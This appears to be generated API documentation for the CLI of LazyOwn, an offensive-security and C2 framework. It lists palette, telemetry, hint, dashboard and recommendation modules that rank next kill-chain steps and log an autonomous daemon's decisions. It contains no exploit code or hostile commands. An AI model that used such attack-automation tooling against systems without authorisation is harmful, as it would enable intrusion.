- `related_commands` (line 226) `def related_commands(graph, command_name)` - *Return ``do_*`` commands that share helper functions with this one.

Two commands are "related" when they call at least
:attr:`GraphLookupConfig.related_min_shared_helpers` of the same helper
nodes. This surfaces structurally similar commands without requiring an
explicit ``runs_after`` annotation in the graph.

Args:
    graph: The loaded graph index (or ``None``).
    command_name: A ``do_*`` command name with or without the ``do_``
        prefix.
    config: Optional override for the lookup config.

Returns:
    At most :attr:`GraphLookupConfig.related_limit` command names,
    ordered by descending overlap then alphabetical.*
- `enrich_detail` (line 287) `def enrich_detail(graph, entry)` - *Attach ``calls`` and ``related`` lists to a palette detail entry.

The returned dict is a shallow copy so the underlying command index is
never mutated. ``None`` input passes through unchanged so callers can
delegate the missing-target sad path to the renderer.*
- `enrich_commands` (line 309) `def enrich_commands(graph, rows)` - *Enrich every entry of ``rows`` with neighbour data.

Used by the C2 view and the Cmd+K overlay so the client-side renderer
can show "calls" / "related" per row without round-tripping.*

#### `palette_overlay.py`
**Path:** `cli/palette_overlay.py`
**File Doc:** *Textual Cmd-K palette overlay for the LazyOwn shell.  The overlay is a modal command launcher: the operator presses a single hotkey, types a fuzzy query against every ``do_*`` command, picks one with the arrow keys and gets the verb echoed back to the shell. It shares the index, filtering and ranking logic with the existing ``cli.palette_command`` and ``cli.palette_telemetry`` modules so the C2 ``/palette`` view, the MCP ``lazyown_palette`` tool and the CLI overlay always agree on what is searchable.  Design (SOLID):  - Single Responsibility: :class:`PaletteOverlayConfig` owns constants, :class:`PaletteOverlayState` performs filtering and ranking, :class:`PaletteOverlayApp` (Textual) renders. The launcher :func:`launch_overlay` wires them together and returns the selected command name. - Dependency Inversion: the state takes an already-loaded index and the recents list so tests never have to touch the filesystem. - Open/Closed: ranking strategies live behind a method that subclasses can override; the default ranks by recency boost + substring match. - No magic numbers/paths: every limit and label lives in the config. - Textual is imported lazily so importing this module on a host without Textual does not error — the launcher returns ``None`` instead.*

**Classes:**
- `PaletteOverlayConfig` (line 38) `class PaletteOverlayConfig` - *Centralised constants for the overlay.*
- `PaletteRow` (line 59) `class PaletteRow` - *Immutable row produced by :class:`PaletteOverlayState`.*
- `PaletteOverlayState` (line 70) `class PaletteOverlayState` - *Pure data layer for the overlay.

The state owns the loaded command index, the recents list and the
current query string. It exposes :meth:`rows` which returns the
deterministic, ranked list of :class:`PaletteRow` for rendering.*
- `_PaletteOverlayApp` (line 240) `class _PaletteOverlayApp(App)`

**Functions:**
- `_load_recents` (line 136) `def _load_recents()` - *Return the operator's most-recent command names or an empty tuple.*
- `_load_index` (line 151) `def _load_index()`
- `build_state` (line 162) `def build_state(payload, index, recents, config)` - *Wire the canonical state used by :func:`launch_overlay`.

Args:
    payload: Loaded ``payload.json`` (only used to pick the theme).
    index: Optional pre-loaded command index (tests inject one).
    recents: Optional pre-loaded recents list.
    config: Optional override for the overlay configuration.

Returns:
    A ready-to-use :class:`PaletteOverlayState`, or ``None`` when the
    command index is unavailable.*
- `launch_overlay` (line 188) `def launch_overlay(payload, state, runner)` - *Open the Textual overlay and return the selected command verb.

Args:
    payload: Loaded ``payload.json``; used to pick the theme.
    state: Optional pre-built state (tests inject one).
    runner: Optional callable that takes the Textual app and returns
        the selected command name. Tests substitute a no-Textual
        runner; production passes ``None`` and the function falls
        back to ``app.run()``.

Returns:
    The chosen command name (``do_<verb>`` form preserved) or
    ``None`` when the overlay was cancelled or could not be opened.*
- `_build_app` (line 228) `def _build_app(state, theme)` - *Construct the Textual app lazily; return ``None`` when unavailable.*

**Methods:**
- `set_query` (line 83) `def set_query(self, value)` - *Replace the active query with ``value`` (trimmed).*
- `rows` (line 87) `def rows(self)` - *Return the ranked, truncated rows for the current query.*
- `_score` (line 113) `def _score(self, name, summary, needle, is_recent)`
- `_truncate` (line 130) `def _truncate(self, value, max_chars)`
- `__init__` (line 255) `def __init__(self)`
- `compose` (line 261) `def compose(self)`
- `on_mount` (line 269) `def on_mount(self)`
- `on_input_changed` (line 272) `def on_input_changed(self, event)`
- `on_input_submitted` (line 276) `def on_input_submitted(self, event)`
- `on_list_view_selected` (line 279) `def on_list_view_selected(self, event)`
- `action_cancel` (line 282) `def action_cancel(self)`
- `action_select_current` (line 285) `def action_select_current(self)`
- `_commit_from_item` (line 292) `def _commit_from_item(self, item)`
- `_refresh_rows` (line 300) `def _refresh_rows(self)`
- `_format_row` (line 314) `def _format_row(self, row)`

#### `palette_telemetry.py`
**Path:** `cli/palette_telemetry.py`
**File Doc:** *Behavioural telemetry derived from ``sessions/LazyOwn_session_report.csv``.  The CLI logs every executed command to a CSV file. This module reads that artefact once per process and exposes a tiny read-only API so the palette CLI, the C2 web overlay and the MCP detail view can all attach the same "how often did this run" / "what runs after it" / "what did I just use" hints to a detail entry without duplicating parsing logic.  Design constraints driving the shape of this module:  - Single Responsibility — :class:`TelemetryIndex` only loads and caches; pure functions like :func:`command_stats`, :func:`runs_after` and :func:`recents` translate it into palette-friendly shapes. - Open/Closed — every threshold, field name and limit lives on :class:`TelemetryConfig`; new aggregations mean adding a function, not editing existing call sites. - Dependency Inversion — every public entry point accepts the parsed telemetry index, never reads it from disk on its own. Callers wire the loader through :func:`load_telemetry` so tests can inject fixtures. - Sad path is a no-op. A missing or malformed CSV degrades to an empty index so the palette stays usable on hosts that have never run a command.*

**Classes:**
- `TelemetryIndexError` (line 37) `class TelemetryIndexError(RuntimeError)` - *Raised when the telemetry CSV is malformed in a way callers must see.*
- `TelemetryConfig` (line 42) `class TelemetryConfig` - *Centralised constants for behavioural telemetry parsing.

Every literal that affects telemetry derivation lives here so behaviour
is tunable without touching call sites. ``frozen=True`` prevents
accidental mutation by per-surface consumers.*
- `CommandStat` (line 61) `class CommandStat` - *Aggregated invocation data for a single ``do_*`` command.

Attributes:
    name: Canonical ``do_<verb>`` form so the value plugs straight into
        the command-index key space.
    runs: Total number of invocations seen in the CSV.
    last_seen: ISO timestamp of the most recent invocation, or the
        empty string when the CSV row carried no timestamp.*
- `TelemetryIndex` (line 78) `class TelemetryIndex` - *Read-only view derived from the session CSV.

Attributes:
    stats_by_command: ``{do_<verb>: CommandStat}`` for every command
        seen in the CSV.
    recent_order: ``do_<verb>`` names in most-recent-first order, with
        duplicates collapsed. Truncated to
        :attr:`TelemetryConfig.recents_limit`.
    cooccurrence: ``{do_<verb>: ((do_<other>, count), ...)}`` listing
        commands that ran shortly after ``do_<verb>`` within the
        configured window, sorted by descending frequency.*

**Functions:**
- `_normalise_command` (line 97) `def _normalise_command(value)` - *Return the canonical ``do_<verb>`` form for a CSV ``command`` field.*
- `_read_csv_rows` (line 107) `def _read_csv_rows(path)` - *Return the parsed rows of ``path``.

A missing file returns an empty list so the loader stays best-effort.
Rows lacking the ``command`` column are dropped silently.*
- `_build_index` (line 123) `def _build_index(rows)` - *Translate a list of CSV rows into :class:`TelemetryIndex`.

The aggregation walks the rows once collecting:

- per-command counters and last-seen timestamps,
- the ordered list of invocations for recency and co-occurrence.

Co-occurrence pairs ``A -> B`` are emitted whenever ``B`` appears within
:attr:`TelemetryConfig.cooccurrence_window` rows after ``A``; pairs that
do not reach :attr:`TelemetryConfig.cooccurrence_min_count` are dropped.*
- `load_telemetry` (line 186) `def load_telemetry(path)` - *Return the parsed telemetry index, cached per resolved path.

Args:
    path: Override the default CSV location. ``None`` uses
        :data:`DEFAULT_TELEMETRY_PATH`.

Returns:
    A :class:`TelemetryIndex`. When the file is missing the function
    returns an empty index; callers that want to surface parse errors
    should catch :class:`TelemetryIndexError`.*
- `safe_load_telemetry` (line 204) `def safe_load_telemetry(path)` - *Best-effort variant of :func:`load_telemetry`.

Returns ``None`` instead of raising so the palette stays usable on hosts
where the CSV is malformed.*
- `command_stats` (line 216) `def command_stats(telemetry, command_name)` - *Return aggregated stats for ``command_name`` or ``None`` when unseen.

Args:
    telemetry: The loaded telemetry index, or ``None`` for a no-op.
    command_name: A ``do_*`` command name with or without the ``do_``
        prefix.
    config: Optional override for the lookup config.*
- `runs_after` (line 239) `def runs_after(telemetry, command_name)` - *Return commands that frequently run after ``command_name``.

Sorted by descending frequency; ties broken alphabetically. The list is
truncated to :attr:`TelemetryConfig.cooccurrence_limit` entries.*
- `recents` (line 259) `def recents(telemetry)` - *Return the most-recently invoked unique ``do_*`` commands.

Order is most-recent-first; truncated to
:attr:`TelemetryConfig.recents_limit` entries.*
- `enrich_detail` (line 275) `def enrich_detail(telemetry, entry)` - *Attach ``runs``, ``last_seen`` and ``runs_after`` to a detail entry.

The returned dict is a shallow copy so the underlying command index is
never mutated. ``None`` input passes through unchanged so callers can
delegate the missing-target sad path to the renderer.*
- `enrich_commands` (line 300) `def enrich_commands(telemetry, rows)` - *Enrich every entry of ``rows`` with telemetry data.

Used by the C2 view and the Cmd+K overlay so the client-side renderer
can show ``runs`` badges per row without round-tripping.*

#### `phase_labels.py`
**Path:** `cli/phase_labels.py`
**File Doc:** *Canonical human-readable labels for kill-chain command phases.  Single source of truth for the phase display names used by the CLI hint system. The keys mirror the ``phase_to_commands`` buckets of ``cli/command_index.json`` (produced by ``scripts/build_command_index.py``) so every consumer renders the same label for the same phase key.*

**Functions:**
- `phase_label` (line 29) `def phase_label(phase)` - *Return the human label for a phase, falling back to title case.

Args:
    phase: Canonical phase key (e.g. ``recon``).

Returns:
    The display label, or the title-cased key when unknown.*

#### `plugin_tiers.py`
**Path:** `cli/plugin_tiers.py`
**File Doc:** *Plugin tiers and operator ratings for the marketplace.  Tiers separate what the core team maintains from community contributions and unvetted experiments:  - ``official``: shipped in-repo and maintained by the core team. - ``community``: default for everything else, including community clones. - ``experimental``: explicitly marked as unvetted; may break or change without notice.  Resolution order for a plugin name: explicit entry in ``plugins/tiers.yaml`` first, then a ``tier:`` field inside the plugin's own YAML metadata, then ``community``.  Ratings are operator-local (stored in ``sessions/plugin_ratings.json`` by default, never committed) and aggregate as a plain average with a count.*

**Functions:**
- `load_tier_manifest` (line 35) `def load_tier_manifest(manifest)` - *Load explicit tier overrides from a ``tiers.yaml`` manifest.

Args:
    manifest: Path to a YAML mapping of plugin name to tier.

Returns:
    Mapping of plugin name to tier. Unknown tiers and malformed
    entries are ignored so a bad manifest can never break listing.*
- `tier_of` (line 61) `def tier_of(name, manifest_tiers, metadata_tier)` - *Resolve the tier for a plugin name.

Args:
    name: Plugin/addon/tool stem.
    manifest_tiers: Explicit overrides from :func:`load_tier_manifest`.
    metadata_tier: Value of the plugin YAML ``tier:`` field, if any.

Returns:
    The manifest tier, the metadata tier when valid, else ``community``.*
- `_load_ratings` (line 79) `def _load_ratings(store)`
- `rate_plugin` (line 98) `def rate_plugin(name, stars, store)` - *Record an operator rating and return the new ``(average, count)``.

Args:
    name: Plugin/addon/tool stem. Must be non-empty.
    stars: Integer rating from 1 to 5.
    store: JSON file holding the ratings map.

Raises:
    ValueError: When the name is empty or stars are outside 1-5.*
- `rating_summary` (line 121) `def rating_summary(name, store)` - *Return the ``(average, count)`` rating for a plugin name.

Args:
    name: Plugin/addon/tool stem.
    store: JSON file holding the ratings map.

Returns:
    ``(0.0, 0)`` when nobody rated the plugin yet.*
- `format_rating` (line 137) `def format_rating(average, count)` - *Render a compact rating label for list and info views.*
- `default_store` (line 144) `def default_store(base_dir)` - *Return the default ratings file under ``<base_dir>/sessions``.*
- `read_metadata_tier` (line 149) `def read_metadata_tier(path)` - *Read the optional ``tier:`` field from a plugin YAML file.*

#### `protips.py`
**Path:** `cli/protips.py`
**File Doc:** *Pro tips system for the LazyOwn shell.  Two surfaces: - Session-start tip: one contextual tip printed after the banner when the shell first starts (reads phase, os_id, rhost). - Post-command tip: a single dim line printed after graph hints when the just-executed command makes a related tool especially relevant.  Design constraints: - Zero imports from lazyown.py or lazyc2.py. - Never blocks the prompt — all rendering is non-interactive. - Respects enable_inline_hints=false (caller checks before calling). - Tips rotate; the same tip is never shown twice in a row.*

**Classes:**
- `ProTip` (line 34) `class ProTip` - *A single contextual tip with a trigger condition and display text.*

**Functions:**
- `_os_linux` (line 43) `def _os_linux(ctx)`
- `_os_windows` (line 47) `def _os_windows(ctx)`
- `_has_rhost` (line 51) `def _has_rhost(ctx)`
- `_has_domain` (line 55) `def _has_domain(ctx)`
- `_has_api_key` (line 59) `def _has_api_key(ctx)`
- `_phase_in` (line 63) `def _phase_in(ctx)`
- `_last_cmd_is` (line 67) `def _last_cmd_is(ctx)` - *Return True when the last command verb is one of cmds.*
- `_after` (line 75) `def _after(ctx)`
- `get_session_tip` (line 301) `def get_session_tip(ctx)` - *Return a single tip to show at session start.

Prefers tips that match the current context. Falls back to rotating
through the session tip list so the operator sees something fresh each
session.

Args:
    ctx: Context dict with keys: phase, os_id, rhost, domain, api_key.

Returns:
    Rich-formatted string, or None if tips are disabled.*
- `render_contextual_tip` (line 327) `def render_contextual_tip(last_cmd, ctx)` - *Print a single dim tip line when the last command triggers one.

Called from the postcmd hook. Does nothing when no tip matches or when
the same tip would repeat.

Args:
    last_cmd: Raw string of the command just executed.
    ctx: Context dict with current session state.*
- `print_session_tip` (line 357) `def print_session_tip(ctx)` - *Print the session-start tip (called once after the banner).

Args:
    ctx: Context dict with current session state.*
- `_safe_trigger` (line 369) `def _safe_trigger(tip, ctx)`

#### `purple_tui.py`
**Path:** `cli/purple_tui.py`
**File Doc:** *Purple Team Dashboard — Textual TUI for engagement monitoring.  Launch from the LazyOwn shell with ``purple_dashboard`` or directly:  python3 -m cli.purple_tui  Layout: ┌─ Header (session / score / detection rate) ────────────────────────┐ │  Left (Score + Methods)  │  Center (Recent Actions) │ Right (Stats)│ ├────────────────────────────────────────────────────────────────────┤ │  Footer ([Q] Quit  [R] Refresh  [E] Exec  [?] Help)              │ └───────────────────────────────────────────────────────────────────┘*

**Classes:**
- `PurpleDashboard` (line 79) `class PurpleDashboard(App)` - *Textual TUI for purple team engagement monitoring.*

**Functions:**
- `_load_score` (line 33) `def _load_score()`
- `_load_recent_results` (line 42) `def _load_recent_results(n)`
- `_dataset_stats` (line 56) `def _dataset_stats()`
- `_make_bar` (line 65) `def _make_bar(value, width)`
- `_color_rate` (line 70) `def _color_rate(rate)`
- `launch` (line 233) `def launch()` - *Launch the purple team dashboard TUI.*

**Methods:**
- `compose` (line 98) `def compose(self)`
- `on_mount` (line 108) `def on_mount(self)`
- `action_refresh` (line 112) `def action_refresh(self)`
- `refresh_data` (line 115) `def refresh_data(self)`
- `_render_score` (line 125) `def _render_score(self, score)`
- `_render_methods` (line 157) `def _render_methods(self, score)`
- `_render_actions` (line 173) `def _render_actions(self, results)`
- `_render_stats` (line 205) `def _render_stats(self, score, ds)`

#### `reactive_hints.py`
**Path:** `cli/reactive_hints.py`
**File Doc:** *Non-blocking inline hint renderer for the LazyOwn cmd2 shell.  After each command executes, a single dim line is printed with the top-N graph-based next-step suggestions derived from the graphify knowledge graph. The GraphLoader caches by (path, mtime) so rendering is sub-millisecond after the first graph load; subsequent calls return from memory.  Design notes: - Zero coupling to cmd2, lazyown.py or Flask — this module is a pure renderer. - The caller decides whether hints are enabled (reads payload.json flag). - Output goes to stdout via rich so ANSI is handled correctly on all terminals. - Commands on SKIP_COMMANDS never produce hints (noise-free UX).*

**Classes:**
- `EvidenceHint` (line 299) `class EvidenceHint` - *A next-step suggestion enriched with its justification and confidence.

The bare inline hint prints only command names, forcing the operator to
trust an unexplained list. This value object carries the *why* and *how
sure* so the hint line reads like advice rather than a menu.

Attributes:
    verb: The command (or copy-paste preview) to run next.
    confidence: Display confidence in ``[0, 100]`` derived from the fused
        recommendation score via :func:`confidence_from_score`.
    reason: One-line English justification, stripped of the ``[source]``
        provenance tag and truncated for the inline hint line.
    sources: Names of the signals that agreed on this action.*

**Functions:**
- `render_inline_hints` (line 220) `def render_inline_hints(advisor, last_command, limit, enabled)` - *Print a single dim hint line below the command output and return immediately.

The line format is:
    ↳ label_a · label_b · label_c

This renders between the command output and the next cmd2 prompt so it
never blocks the operator from typing the next command.

Args:
    advisor: GraphAdvisor instance (reuses its internal mtime-keyed cache).
    last_command: Raw command string that just executed (first token used).
    limit: Maximum number of suggestions to display.
    enabled: When False the function is a no-op. Controlled by the
        ``enable_inline_hints`` key in payload.json.

Returns:
    None — side effect is at most one line written to stdout.*
- `_first_token` (line 262) `def _first_token(raw)`
- `_extract_labels` (line 267) `def _extract_labels(suggestions, limit)`
- `_truncate` (line 278) `def _truncate(value, max_len)`
- `_render` (line 284) `def _render(labels)`
- `confidence_from_score` (line 321) `def confidence_from_score(score)` - *Map an unbounded fused recommendation score to a 0-100 display confidence.

:class:`cli.recommendation.RecommendationEngine` produces scores that are
unbounded above because multiple agreeing signals add up, so a raw
percentage would be meaningless. This applies a saturating map
``100 * s / (s + K)`` where ``K`` (:data:`_CONFIDENCE_HALF_SCORE`) is the
score at which confidence reaches 50%. The map is monotonic — more signal
agreement yields higher confidence — and floors at 99 so the display never
claims a dishonest 100%.

Args:
    score: The fused recommendation score. Negative values are floored at
        zero.

Returns:
    Integer confidence in ``[0, 99]``.*
- `_clean_reason` (line 343) `def _clean_reason(reasons)` - *Return the primary reason without its ``[source]`` tag, truncated.

Args:
    reasons: The ordered provenance lines from a fused recommendation, each
        shaped ``"[signal] justification"`` by the engine accumulator.

Returns:
    The first justification with any leading ``[signal] `` tag removed and
    truncated to :data:`_EVIDENCE_REASON_MAX`. Empty when no reason exists.*
- `build_evidence_hints` (line 362) `def build_evidence_hints(recommendations, limit)` - *Convert fused recommendations into display-ready evidence hints.

A recommendation without a usable verb or without a justification is
skipped so the operator never sees a bare, unexplained suggestion — an
explained shorter list beats a padded opaque one.

Args:
    recommendations: Ranked objects exposing ``action``, ``score``,
        ``reasons``, ``sources`` and optional ``command_preview`` (a
        :class:`cli.recommendation.Recommendation` or any duck-typed
        equivalent), best first.
    limit: Maximum number of hints to return.

Returns:
    Up to ``limit`` :class:`EvidenceHint` items preserving input order.*
- `render_evidence_hints` (line 400) `def render_evidence_hints(hints)` - *Print evidence-backed hint lines: verb, confidence, reason, provenance.

The first hint carries the ``↳`` arrow; the rest are indented to align, so
a glance reads as one ranked block of advice.

Args:
    hints: The hints to render, already truncated and ranked.

Returns:
    None — writes one dim line per hint to stdout.*
- `build_evidence_hint_lines` (line 416) `def build_evidence_hint_lines(hints)` - *Build evidence-backed hint lines as Rich Text objects.

Same layout as :func:`render_evidence_hints` but returns the lines
instead of printing them, so the caller can embed them in a panel
or other container.

Args:
    hints: The hints to render, already truncated and ranked.

Returns:
    A list of :class:`Text` objects, one per hint.*
- `read_run_commands` (line 443) `def read_run_commands(sessions_dir)` - *Return the set of command names already executed this session.

Reads the CSV transcript and extracts the first token of the first
populated column (``tool``, ``command``, or ``name``). Shared by the
inline hint renderer, the tips engine, and any other surface that must
filter already-run commands out of its suggestions.

Args:
    sessions_dir: Directory containing ``LazyOwn_session_report.csv``.

Returns:
    A set of command verbs, empty when the transcript is missing or
    unreadable.*
- `_collect_command_hints` (line 476) `def _collect_command_hints(cmd, phase, already_run, limit)` - *Collect forward-looking hint verbs from adjacency then phase priority.

Kill-chain adjacency (``_KILL_CHAIN_NEXT``) feeds the list first; when it
falls short of ``limit`` the phase-priority table fills the remainder.
Commands already executed this session and the predecessor itself are
excluded so the hint always looks forward.

Args:
    cmd: The command that just ran. Empty disables the adjacency lookup
        and collects phase priority only.
    phase: Current engagement phase identifier.
    already_run: Set of verbs already present in the transcript.
    limit: Maximum number of verbs to return.

Returns:
    Ordered candidate verbs, length at most ``limit``.*
- `render_command_hints` (line 514) `def render_command_hints(last_command, phase, sessions_dir, limit, enabled)` - *Print phase-aware, history-filtered command hints after each step.

Uses kill-chain adjacency (``_KILL_CHAIN_NEXT``) first, then falls back
to phase priority (``_PHASE_PRIORITY``).  Commands already in the session
CSV are skipped so the hint is always forward-looking.

Args:
    last_command: The command that just ran (first token used).
    phase:        Current engagement phase (from payload.json / world_model).
    sessions_dir: Path to sessions/ directory.
    limit:        Maximum labels to display.
    enabled:      When False this is a no-op.

Returns:
    None — prints at most one dim line.*
- `command_hints` (line 549) `def command_hints(last_command, phase, sessions_dir, limit)` - *Return the top next-step command verbs without printing them.

Mirrors the logic of :func:`render_command_hints` but separates the
suggestion engine from the I/O side effect so other UI surfaces (the
persistent status bar in :mod:`cli.status_bar`, future TUI widgets)
can consume the exact same data the inline hints use.

Args:
    last_command: Raw command string that most recently executed.
        Only the first token is considered. When empty or in
        :data:`SKIP_COMMANDS` the adjacency lookup is skipped and the
        phase priority table feeds the result.
    phase: Current engagement phase identifier. Falls back to
        ``recon`` when empty.
    sessions_dir: Path to ``sessions/`` used to filter out commands
        that already appear in the CSV transcript.
    limit: Maximum number of verbs to return.

Returns:
    Ordered list of suggested command verbs, length ``<= limit``.
    Returns an empty list when no candidates remain after filtering.*

#### `reasoning_stream.py`
**Path:** `cli/reasoning_stream.py`
**File Doc:** *Operator-facing view over the autonomous daemon decision log.  The autonomous daemon (``skills/autonomous_daemon.py``) appends structured events to ``sessions/autonomous_events.jsonl`` through its ``_emit`` helper. Every event is a JSON object with the shape::  {"id": "...", "ts": "<iso8601>", "type": "STEP_START", "severity": "info", "payload": {...}}  This module turns that raw stream into a compact, human-readable sequence of :class:`ReasoningEntry` records so the dashboard can render *what the daemon is thinking* in real time: the command it chose, the phase, the selector that produced the decision, the rationale and the reinforcement-learning reward.  The module performs no rendering and imports nothing from ``lazyown.py`` or ``lazyc2.py``; it only reads the JSONL log. This keeps it unit-testable and reusable by the Textual dashboard, the web dashboard or any other consumer.*

**Classes:**
- `ReasoningEntry` (line 66) `class ReasoningEntry` - *One human-readable line in the daemon reasoning stream.

Attributes:
    ts: Wall-clock ``HH:MM:SS`` slice of the event timestamp.
    kind: Canonical event type as emitted by the daemon.
    icon: Single-glyph marker used by the renderer.
    style: Rich style string for the marker and command.
    phase: Kill-chain phase the event belongs to, empty if unknown.
    command: Command associated with the event, empty if not applicable.
    summary: Compact rationale or outcome description.
    reward: Reinforcement-learning reward for the step, ``None`` when the
        event carries no reward signal.*

**Functions:**
- `read_raw_events` (line 91) `def read_raw_events(path, limit)` - *Return the last ``limit`` well-formed events from the JSONL log.

Malformed lines are skipped silently so a single corrupt write never
breaks the dashboard. The newest event is last in the returned list.

Args:
    path: Path to the autonomous events JSONL file.
    limit: Maximum number of events to return from the tail.

Returns:
    A list of decoded event dictionaries, oldest first.*
- `_format_time` (line 127) `def _format_time(ts)` - *Extract an ``HH:MM:SS`` slice from an ISO-8601 timestamp.*
- `_format_size` (line 134) `def _format_size(num_bytes)` - *Render a byte count as ``B`` or ``KB`` without external deps.*
- `_truncate` (line 141) `def _truncate(text, limit)` - *Trim ``text`` to ``limit`` characters with an ellipsis marker.*
- `_summarize` (line 148) `def _summarize(kind, payload)` - *Build a compact rationale string for an event payload.*
- `_extract_reward` (line 175) `def _extract_reward(payload)` - *Return the step reward when present, else ``None``.*
- `event_to_entry` (line 183) `def event_to_entry(event)` - *Convert a raw daemon event into a :class:`ReasoningEntry`.

Args:
    event: A decoded event dictionary from the JSONL log.

Returns:
    A populated :class:`ReasoningEntry`. Unknown event types fall back to
    a neutral marker so the stream never drops information.*
- `latest_reasoning` (line 216) `def latest_reasoning(path, limit)` - *Return the most recent daemon decisions as reasoning entries.

Args:
    path: Path to the autonomous events JSONL file.
    limit: Maximum number of entries to return, newest last.

Returns:
    A list of :class:`ReasoningEntry`, oldest first.*
- `latest_hint` (line 229) `def latest_hint(events_path)` - *Return the newest human-readable reasoning line for spinners.

Reads the tail of the autonomous events log and renders the most
recent entry as ``icon kind — summary``. Returns an empty string
when the log is missing or unreadable so spinners fall back to a
generic waiting message instead of failing.*

#### `recommendation.py`
**Path:** `cli/recommendation.py`
**File Doc:** *Unified next-best-action engine: the single source of truth for "what next".  Before this module the framework carried four independent "what should I run next" brains that never spoke to each other:  * the graphify proximity walk (:meth:`cli.graph_advisor.GraphAdvisor.suggest_next`), * the learned transition policy (:class:`skills.lazyown_policy.LazyOwnPolicyIntegration`), * the nmap trigger-matched recon plan (:func:`cli.recon_plan.build_recon_plan`), * the static kill-chain adjacency tables in :mod:`cli.reactive_hints`.  Each surface (the ``recommend_next`` CLI verb, the inline push hints, the MCP tool) wired a different subset by hand, so the operator saw three unmerged lists and had to synthesise them mentally. This module collapses them into one logical chain of thought.  The fusion model has two tiers, mirroring the natural granularity of the inputs:  * **Concrete-action signals** (graph, recon plan, kill-chain) propose individual commands / addons / tools, each with a signal-local weight. * **Category-prior signals** (policy) propose kill-chain *categories* with a confidence. These do not name a command; instead they up- or down-weight every concrete action that belongs to the category.  :class:`RecommendationEngine` normalises every signal, multiplies each concrete action by its category prior, merges duplicates across signals (carrying the full provenance), and returns a single ranked list of :class:`Recommendation`.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py`` (Dependency Inversion): consumers depend on this module, never the reverse.*

**Classes:**
- `EngineWeights` (line 67) `class EngineWeights` - *Immutable fusion parameters shared by every recommendation run.

Attributes:
    signal_weights: Global multiplier per concrete-action signal. The recon
        plan ranks highest because it is grounded in a real scan of the
        target; the graph walk and the static kill-chain tables are advisory.
    category_prior_floor: Lowest multiplier a concrete action can receive
        from a cold policy category. Never zero, so a single signal can still
        surface an action the policy has not yet learned to favour.
    category_prior_span: Width added on top of the floor for a maximally
        confident policy category. ``floor + span`` is the hottest prior.
    neutral_prior: Multiplier applied to actions whose category carries no
        policy signal at all.
    category_recommendation_weight: Score assigned to a standalone strategic
        category recommendation so it ranks below concrete actions of similar
        confidence while remaining visible.*
- `RecommendationContext` (line 101) `class RecommendationContext` - *Everything a signal needs to produce proposals for one decision.

Attributes:
    target: Active rhost (or ``None`` to let scan-backed signals fall back to
        the most recent artefact in ``sessions/``).
    payload: ``payload.json`` mapping; signals read phase, creds and OS hints.
    recent_commands: Ordered command verbs already executed this session,
        most recent last. Seeds the graph walk and the kill-chain adjacency.
    phase: Resolved kill-chain phase, used by the recon plan and as a
        category fallback.
    limit: Maximum number of fused recommendations the caller wants.*
- `Proposal` (line 123) `class Proposal` - *A single raw suggestion emitted by one signal, before fusion.

Attributes:
    action: Command / addon / tool identifier, or a category name when
        ``kind`` is :data:`KIND_CATEGORY`.
    kind: One of the ``KIND_*`` constants.
    weight: Signal-local importance in ``[0, 1]``. Normalised against the
        signal's own maximum before the global weight is applied.
    reason: One-line English justification shown to the operator.
    category: Kill-chain category the action belongs to, when the signal
        already knows it. Empty lets the engine resolve it from the command
        index.
    command_preview: Best-effort copy-paste command string, when available.
    mitre: Optional MITRE ATT&CK technique id.*
- `Recommendation` (line 150) `class Recommendation` - *A fused, ranked next action with full provenance.

Attributes:
    action: The suggested command / addon / tool / category.
    kind: One of the ``KIND_*`` constants.
    score: Fused score after normalisation, global weighting and category
        priors. Higher is better; values are not bounded to ``[0, 1]`` once
        multiple signals reinforce the same action.
    category: Resolved kill-chain category, or empty when unknown.
    sources: Names of every signal that contributed, in registration order.
    reasons: One provenance line per contributing signal.
    command_preview: Copy-paste command when any signal supplied one.
    mitre: MITRE technique id when any signal supplied one.*
- `RecommendationSignal` (line 177) `class RecommendationSignal(Protocol)` - *Contract every recommendation brain must satisfy to join the chain.

Implementations must be side-effect free beyond reading their own backend and
must never raise out of :meth:`propose`; an unavailable backend returns an
empty list so the engine degrades gracefully.*
- `CategoryResolver` (line 192) `class CategoryResolver` - *Map a concrete command to its kill-chain category.

The lookup is built once from ``cli/command_index.json`` (its
``category_to_commands`` / ``phase_to_commands`` sections) and consulted by
the engine to decide which policy prior applies to each concrete action. The
loader is injected so tests run without touching the real index.*
- `RecommendationEngine` (line 232) `class RecommendationEngine` - *Fuse every registered signal into one ranked recommendation list.

The engine holds no per-call state; :meth:`recommend` is pure with respect to
the injected signals and resolver, which is what lets the CLI verb, the push
hints and the MCP tool share a single instance without coupling.*
- `_Accumulator` (line 362) `class _Accumulator` - *Mutable fusion slot collecting every contribution to one action.*

**Functions:**
- `_clamp01` (line 400) `def _clamp01(value)` - *Clamp ``value`` into the closed unit interval.

Used for probability-like inputs such as a policy category confidence.*
- `_non_negative` (line 412) `def _non_negative(value)` - *Floor ``value`` at zero, preserving its scale for peak normalisation.

Concrete-action signals (the graph walk in particular) emit unbounded
positive importances; clamping them to one before normalisation would
collapse their relative ranking, so only the negative tail is removed.*
- `_load_command_index` (line 422) `def _load_command_index(path)` - *Read ``command_index.json`` with stdlib only, returning ``None`` on error.*

**Methods:**
- `propose` (line 187) `def propose(self, ctx)` - *Return zero or more :class:`Proposal` objects for ``ctx``.*
- `__init__` (line 201) `def __init__(self, index_path, loader)` - *Build the resolver from the command index.

Args:
    index_path: Path to ``command_index.json``.
    loader: Injected reader returning the parsed index or ``None``.*
- `category_for` (line 227) `def category_for(self, action)` - *Return the kill-chain category for ``action`` or an empty string.*
- `__init__` (line 240) `def __init__(self, signals, resolver, weights)` - *Wire the engine with its signals and fusion parameters.

Args:
    signals: Concrete-action and category-prior signals to fuse.
    resolver: Command-to-category resolver. Built from the default index
        when omitted.
    weights: Fusion parameters. Defaults to :class:`EngineWeights`.*
- `recommend` (line 258) `def recommend(self, ctx)` - *Return the fused, ranked recommendations for ``ctx``.

Args:
    ctx: The decision context shared with every signal.

Returns:
    Up to ``ctx.limit`` :class:`Recommendation` objects, ordered by fused
    score descending and action name ascending for determinism.*
- `_safe_propose` (line 280) `def _safe_propose(signal, ctx)` - *Call ``signal.propose`` swallowing any failure into an empty list.*
- `_build_category_priors` (line 287) `def _build_category_priors(self, collected)` - *Translate policy category proposals into per-category multipliers.*
- `_fuse_concrete_actions` (line 302) `def _fuse_concrete_actions(self, collected, priors)` - *Merge concrete proposals across signals into ranked recommendations.*
- `_category_recommendations` (line 331) `def _category_recommendations(self, collected, concrete)` - *Surface strategic categories that no concrete action already covers.*
